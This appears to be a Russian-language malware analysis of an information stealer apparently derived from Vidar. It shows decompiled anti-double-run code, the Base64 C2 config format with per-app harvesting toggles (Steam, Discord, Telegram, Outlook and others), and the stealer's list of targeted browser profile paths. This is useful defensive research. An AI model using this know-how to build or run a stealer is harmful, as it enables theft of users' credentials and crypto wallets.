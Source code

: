 Не дает запуститься 2 копиям стиллера одновременно, код взят со стиллера Vidar.

```cpp
while ( 1 )                                   // anti double run
{
    str_from_this_0 = (const CHAR *)get_str_from_this_0(v15);// HAL9TH_DESKTOP-CFJRVNP_debug
    hObject = OpenEventA(0x1F0003u, 0, str_from_this_0);
    if ( !hObject )
      break;
    CloseHandle(hObject);
    Sleep(0x1770u);
  }
  v6 = (const CHAR *)get_str_from_this_0(v15);
  hObject = CreateEventA(0, 0, 0, v6);
```

# Server communication

Все пакеты получаемые и отсылаемые стиллером накрыты Base64. Начинается все с получения пакета с конфигурацией, который понадобится для дальнейшей работы.

```
0b5053a8b007d6effc8bfa7c580c06066aea9c9e8b11dd48a3924ef8b43e42993ff42512|done|fsfhghsdfd.docx|1|1|1|1|1|1|1|1|
```
Далее конфиг с моими комментариями

```
0b5053a8b007d6effc8bfa7c580c06066aea9c9e8b11dd48a3924ef8b43e42993ff42512 - token
done - добавляется в последний запрос, чтобы сигнализировать серверу о завершении работы
fsfhghsdfd.docx - idk
1|1|1|1|1|1|1|1| - отвечают за сбор данных steam, discord, telegram, tox, outlook, pidgin, создание скриншота, само удаления с компьютера жертвы.
```

Все дальнейшие пакеты содержат всевозможные данные которые нужно собрать - данные браузеров и браузерных криптокошельков, десктопных криптокошельков, отдельные файлы для сбора.

Браузеры :

```
Google Chrome|\Google\Chrome\User Data|chrome|chrome.exe|Google Chrome Canary|\Google\Chrome SxS\User Data|chrome|chrome.exe|Chromium|\Chromium\User Data|chrome|chrome.exe|Amigo|\Amigo\User Data|chrome|0|Torch|\Torch\User Data|chrome|0|Vivaldi|\Vivaldi\User Data|chrome|vivaldi.exe|Comodo Dragon|\Comodo\Dragon\User Data|chrome|0|EpicPrivacyBrowser|\Epic Privacy Browser\User Data|chrome|0|CocCoc|\CocCoc\Browser\User Data|chrome|0|Brave|\BraveSoftware\Brave-Browser\User Data|chrome|brave.exe|Cent Browser|\CentBrowser\User Data|chrome|0|7Star|\7Star\7Star\User Data|chrome|0|Chedot Browser|\Chedot\User Data|chrome|0|Microsoft Edge|\Microsoft\Edge\User Data|chrome|msedge.exe|Microsoft Edge Canary|\Microsoft\Edge SxS\User Data|chrome|msedge.exe|Microsoft Edge Beta|\Microsoft\Edge Beta\User Data|chrome|msedge.exe|Microsoft Edge Dev|\Microsoft\Edge Dev\User Data|chrome|msedge.exe|360 Browser|\360Browser\Browser\User Data|chrome|0|QQBrowser|\Tencent\QQBrowser\User Data|chrome|0|CryptoTab|\CryptoTab Browser\User Data|chrome|browser.exe|Opera Stable|\Opera Software|opera|opera.exe|Opera GX Stable|\Opera Software|opera|opera.exe|Mozilla Firefox|\Mozilla\Firefox\Profiles|firefox|0|Pale Moon|\Moonchild Productions\Pale Moon\Profiles|firefox|0|Opera Crypto Stable|\Opera Software|opera|opera.exe|Thunderbird|\Thunderbird\Profiles|firefox|0|
```
